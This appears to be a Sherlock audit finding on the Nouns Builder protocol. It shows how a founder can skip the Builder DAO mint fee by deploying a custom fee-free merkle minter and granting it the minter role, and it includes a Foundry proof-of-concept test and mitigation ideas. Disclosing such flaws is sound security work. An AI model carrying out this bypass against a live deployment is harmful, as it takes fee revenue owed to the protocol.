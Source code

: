 Ancient Inky Kitten

high

# Builder DAO fee can be avoided

## Summary
The protocol intends to charge fees using the `MerkleTreeReserveMinter` when the `pricePerToken > 0`, but this can be easily avoided.
## Vulnerability Detail
The contract mints from an `ERC721` token, and needs to have the minter role in that token.
So the collection founder could create his own merkle tree contract that has no fees in it, and give it the minter role in the token 
And  that way users can mint with `pricePerToken > 0` without the need of paying the fees.
## Impact
This will result in `pricePerToken * countOfMintedTokens` in loss for the protocol.
## Code Snippet
[MerkleReserveMinter.sol#L184-L187](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/minters/MerkleReserveMinter.sol#L184-L187)

We have coded a PoC:
```solidity
function testAvoidFees() public {
        deployAltMock(20);
        // bad founder deploys his own custom merkle tree
        badMinter = new BadMerkleReserveMinter(address(manager), rewards);
        // this merkle tree has no protocol fees
        assertEq(badMinter.BUILDER_DAO_FEE() ,0);
        bytes32 root = bytes32(0x5e0da80989496579de029b8ad2f9c234e8de75f5487035210bfb7676e386af8b);
        // mint price is >0, and users wont pay any fees
        uint256 mintPrice = 200000000;
        BadMerkleReserveMinter.MerkleMinterSettings memory settings = BadMerkleReserveMinter.MerkleMinterSettings({
            mintStart: 0,
            mintEnd: uint64(block.timestamp + 1000),
            // price > 0
            pricePerToken: uint64(mintPrice),
            merkleRoot: root
        });

        vm.prank(address(founder));
        badMinter.setMintSettings(address(token), settings);

        TokenTypesV2.MinterParams memory params = TokenTypesV2.MinterParams({ minter: address(badMinter), allowed: true });
        TokenTypesV2.MinterParams[] memory minters = new TokenTypesV2.MinterParams[](1);
        minters[0] = params;
        vm.prank(address(founder));
        // allow bad minter contract as minter for the token
        token.updateMinters(minters);

        bytes32[] memory proof = new bytes32[](1);
        proof[0] = bytes32(0xd77d6d8eeae66a03ce8ecdba82c6a0ce9cff76f7a4a6bc2bdc670680d3714273);

        BadMerkleReserveMinter.MerkleClaim[] memory claims = new BadMerkleReserveMinter.MerkleClaim[](1);
        claims[0] = BadMerkleReserveMinter.MerkleClaim({ mintTo: claimer1, tokenId: 5, merkleProof: proof });
        // minters will pay minting price only
        badMinter.mintFromReserve{value :mintPrice }(address(token), claims);
        assertEq(token.ownerOf(5), claimer1);

    }
```

## Tool used

Manual Review

## Recommendation
There is now a definitive solution for this without completely removing the permission-less nature of tokens, but there are some methods to add extra complexity to this attack, de-incentivizing the founder from doing so:
The merkle tree being deployed from the manager, so founders are forced to use protocol's merkle tree contract if needed.
And disallowing to set smart contracts as minters for the token, others than the intended contracts(auction, protocol deployed merkle tree)